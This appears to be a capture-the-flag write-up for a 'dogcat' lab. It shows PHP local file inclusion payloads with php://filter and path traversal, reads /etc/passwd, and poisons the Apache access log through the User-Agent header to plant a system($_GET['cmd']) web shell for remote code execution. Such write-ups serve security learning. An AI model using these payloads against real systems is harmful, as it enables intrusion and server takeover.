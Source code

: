 # dogcat

### dogcat
Nmap scan shows ports 22 and 80 open. `Gobuster` reveals the presence of a file called `flag.php`:<br />
![image](https://github.com/user-attachments/assets/f3527561-1727-47fb-bd14-3f8fc129f08e)<br />
After some testing, the following payload works to retrieve the code of `dog.php`: `http://10.10.181.198/?view=php://filter/read=convert.base64-encode/resource=dog`:<br />
![image](https://github.com/user-attachments/assets/905918ae-dd45-4f71-846f-67bfa1a742a8)<br />
To read the flag, I developed this payload: `http://10.10.25.29/?view=php://filter/read=convert.base64-encode/resource=./../../../../../usr/bin/cat/../../../var/www/html/flag`. It's built this way because the string needs to have the word "cat" or "dog" in it.<br />
![image](https://github.com/user-attachments/assets/016a6e00-8a7b-42ff-9f86-6c3bcae6fbb5)<br />
But now I want to see `/etc/passwd`. If I look at the source code of `index.php`:<br />
![Screenshot 2025-03-28 145653](https://github.com/user-attachments/assets/7ac238be-2da4-4ff8-80fc-10cfa37e849d)<br />
If a variable `ext` is not set, then it automatically adds `.php` at the end of the string. So the following payload will set `ext` to an empty string and will view `/etc/passwd`. Now I can perform log poisoning attack to get RCE. First, I send the following request by modifying the useragent to add php code into the access.log file: 

    GET /?ext=&view=/.dog/../../../../../var/log/apache2/access.log HTTP/1.1
    Host: 10.10.154.107
    User-Agent: <?php system($_GET['cmd']); ?>
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
Now, If I perform the following request: `http://10.10.154.107/?ext=&view=/.dog/../../../../../var/log/apache2/access.log&cmd=whoami`, I get RCE:<br />
![image](https://github.com/user-attachments/assets/7b899c2a-9a62-48fa-9b2e-3fcef422cf5b)<br />
